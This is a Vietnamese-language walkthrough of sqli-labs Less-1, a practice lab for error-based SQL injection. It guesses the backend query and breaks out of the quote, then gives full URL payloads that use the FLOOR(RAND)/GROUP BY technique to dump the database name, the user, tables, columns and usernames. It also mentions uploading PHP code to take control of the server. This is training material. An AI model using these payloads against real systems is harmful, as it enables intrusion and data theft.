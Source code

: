 ## Less-1

Ta thấy ở đây là error based

![](../images/sqli-labs/Less-1/l11.png)

Yêu cầu truyền vào một ID

![](../images/sqli-labs/Less-1/l12.png)

Đây là lỗi error based nên thử truyền vào các id khác nhau

![](../images/sqli-labs/Less-1/l13.png)

![](../images/sqli-labs/Less-1/l14.png)

Dự đoán câu query để hiển thị name và password là:

```
select name, password from table where id = $ID
```
Tiếp tục thử ta thấy đã xuất hiện lỗi

![](../images/sqli-labs/Less-1/l15.png)

Dự đoán câu query lúc này sẽ là

```
select name, password from table where id = '$ID' limit 0,1
```

Tiếp tục thử tiếp

![](../images/sqli-labs/Less-1/l16.png)

Ta thấy vẫn lỗi vì câu query lúc này nó đang thực thi là

```
select name, password from table where id = '1'' limit 0,1
```

Thử comment những gì phía sau `'1'` lại để câu truy vấn chỉ còn:

```
select name, password from table where id = '1'
```

![](../images/sqli-labs/Less-1/l17.png)

Tận dụng đây ta có thể show ra một số thông tin

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-1/01.png)

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select user()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-1/02.png)

Show các bảng bên trong database

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select table_name from information_schema.tables where table_schema='security' limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-1/03.png)

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select table_name from information_schema.tables where table_schema='security' limit 1,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-1/04.png)

Có thể show được các cột bên trong một bảng

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select column_name from information_schema.columns where table_name='users' limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-1/05.png)

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select column_name from information_schema.columns where table_name='users' limit 1,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-1/06.png)

Ta có thể show dữ liệu bên trong một bảng

```
http://192.168.84.233/sqli-labs/Less-1/?id=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select username from users limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-1/08.png)

Ta có thể up một đoạn code PHP lên server

![](../images/sqli-labs/Less-1/l123.png)

Bây giờ ta có thể thao tác trên chính server đó

![](../images/sqli-labs/Less-1/l124.png)

![](../images/sqli-labs/Less-1/l125.png)